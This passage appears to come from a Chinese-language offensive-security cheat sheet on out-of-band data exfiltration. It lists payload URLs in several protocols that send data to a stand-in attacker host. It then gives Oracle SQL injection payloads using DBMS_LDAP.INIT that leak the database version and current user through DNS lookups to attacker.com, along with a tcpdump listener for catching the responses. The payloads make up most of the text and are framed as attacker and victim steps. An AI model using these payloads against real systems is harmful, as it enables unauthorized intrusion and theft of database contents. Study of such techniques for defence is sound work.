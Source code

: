   
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo2tuy61EDjVEx5oHTcicJS1DiaQI4NuQ1XxLUg58exxe1RicreZviamPGgQ/640?wx_fmt=png&from=appmsg "")  
  
**类似地，其他可能的载荷来窃取数据**  
```
http://oob.dnsattacker.com:port/%data
ftp://oob.dnsattacker.com:port/%data
gopher://oob.dnsattacker.com:port/%data%
ldap://oob.dnsattacker.com:port
\\oob.dnsattacker.com\\C$\\1.txt
```  
## SQL Injection (SQL 注入)  
  
**注意：**  
所有数据库服务器安装都在 Windows 上。有关详细的 SQL 注入速查表，请参考这里和这里  
### 检测  
#### DNS  
  
**攻击者**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应。  
```
sudo tcpdump -n port 53
```  
##### ORACLE  
###### 检测  
  
**受害者**  
```
SELECT DBMS_LDAP.INIT(('oob.dnsattacker.com',80) FROM DUAL;
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoSWnJRdzctSTt2RibNEMwO9k89WleiaGswPbGmmfdJebXP7ReZgnnWLtg/640?wx_fmt=png&from=appmsg "")  
  
**注意：**  
为了使用这种技术，需要更高的权限来调用上述函数。  
###### 漏洞利用/数据窃取  
  
**受害者**  
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.attacker.com',80) FROM dual;    /* 提取 Oracle 数据库版本 */
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpojSIWfpVpS4ZVvxNibINdEYBxeH1SDjlwo5Dt8PiczpGR97cnIib9vtO6Q/640?wx_fmt=png&from=appmsg "")  
  
**类似地，我们可以使用以下载荷。**  
  
**受害者**  
```
SELECT DBMS_LDAP.INIT((SELECT user FROM dual)||'.attacker.com',80) FROM dual;      /* 提取 Oracle 数据库中的当前用户 */
```  
  